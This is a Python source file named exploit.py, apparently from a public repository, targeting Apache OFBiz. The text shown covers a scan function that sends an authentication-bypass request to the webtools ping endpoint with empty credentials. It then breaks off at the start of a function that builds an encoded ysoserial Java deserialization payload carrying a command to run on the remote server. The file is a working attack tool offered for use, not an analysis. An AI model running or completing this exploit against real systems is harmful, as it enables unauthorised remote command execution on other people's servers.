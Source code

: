 ### exploit.py
```python
# Import necessary libraries
import argparse   # For parsing command-line arguments
import logging    # For logging error messages and debugging information
import os         # Provides functions for interacting with the operating system
import subprocess # To execute shell commands from within the script
import base64     # For encoding and decoding binary data
import requests   # Simplifies sending HTTP requests
import urllib3    # Handles HTTP connections and SSL settings

# Disable SSL verification warning for simplicity.
# This suppresses warnings about unverified HTTPS requests.
# In production code, SSL verification should not be disabled to maintain security.
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

def validate_url(url):
    """
    Validate the URL schema to ensure it starts with 'http://' or 'https://'.
    Args:
        url (str): The URL to validate.
    Raises:
        ValueError: If the URL does not start with the correct schema.
    """
    if not url.startswith("http://") and not url.startswith("https://"):
        raise ValueError("Invalid URL schema. Use 'http://' or 'https://'.")

def scan(url):
    """
    Perform a basic vulnerability scan on the specified URL.
    Checks if the Apache OFBiz instance is vulnerable to the ping request exploit.

    Args:
        url (str): The base URL of the Apache OFBiz instance to scan.
    """
    print("[+] Scanning started...")
    try:
        # Construct the URL for the vulnerability check endpoint.
        # This specific endpoint is known to be vulnerable to certain Apache OFBiz exploits.
        target_url = f"{url}/webtools/control/ping?USERNAME=&PASSWORD=&requirePasswordChange=Y"
        
        # Send a GET request to the target URL, disabling SSL verification.
        response = requests.get(target_url, verify=False)

        # Raise an HTTPError if the HTTP response contains a 4xx or 5xx status code.
        response.raise_for_status()

        # Check if the response text contains "PONG", indicating a vulnerability.
        if "PONG" in response.text:
            print("[+] Apache OFBiz instance seems to be vulnerable.")
        else:
            print("[-] Apache OFBiz instance seems NOT to be vulnerable.")

    except requests.exceptions.RequestException as e:
        # Catch and log any exceptions that occur during the HTTP request.
        print(f"[-] LOG: An error occurred during the scan: {e}")

def get_encoded_payload(cmd):
    """
    Generate a base64 encoded payload using ysoserial for Java deserialization exploits.

    Args:
        cmd (str): The command to be executed on the remote server.
```